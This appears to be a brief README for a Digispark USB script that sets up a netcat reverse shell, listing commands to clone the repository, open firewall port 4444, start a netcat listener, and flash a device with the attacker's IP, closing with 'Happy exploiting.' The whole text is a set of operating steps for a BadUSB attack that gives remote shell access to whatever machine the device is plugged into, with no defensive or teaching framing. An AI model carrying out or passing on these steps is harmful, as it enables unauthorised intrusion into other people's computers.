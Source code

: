 ## How to use:

`git clone https://github.com/Samuel20354/Digispark_scripts.git`


`cd Digispark_scripts/Reverse Shell (NetCat)`


`sudo ufw allow 4444`


`nc -lp 4444`


Change the IP to your local IP in `reverse_shell.ino` file, then upload to your digispark. Done! Happy exploiting.

